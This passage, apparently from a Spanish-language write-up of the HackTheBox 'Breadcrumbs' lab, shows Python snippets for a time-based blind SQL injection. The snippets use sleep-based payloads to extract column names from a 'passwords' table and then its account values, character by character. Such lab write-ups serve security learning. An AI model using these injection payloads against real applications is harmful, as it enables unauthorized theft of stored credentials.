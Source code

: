 Interesante, solo hay una tabla llamada `passwords`, extraigamos sus columnas...

...

##### Obtenemos columnas de la tabla <u>passwords</u>.

👀

```py
...
# Iteramos entre las columnas
for column_num in range(0, 5):
    p4 = log.progress("Column name")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT column_name FROM information_schema.columns WHERE table_schema='bread' and table_name='passwords' LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (column_num, position, letter)
            payload += "table=passwords"
...
```

> [extract_columns.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_column_names.py)

![316bash_scriptSQLi_columns](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_columns.png)

Perfecto, tenemos 4 columnas, enfoquémonos en las columnas `account` y `password` para asi entender de quien es cada password.

> `aeskey` es realmente `aes_key`, me di cuenta relacionandolo con la respuesta normal antes de hacer el SQLi (y pues que me faltaba ese char en el dic).

...

##### Obtenemos la información de la columna <u>account</u>.

👀

```py
...
for acc_num in range(0, 3):
    p4 = log.progress("Account")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT account FROM passwords LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (acc_num, position, letter)
            payload += "table=passwords"
...
```
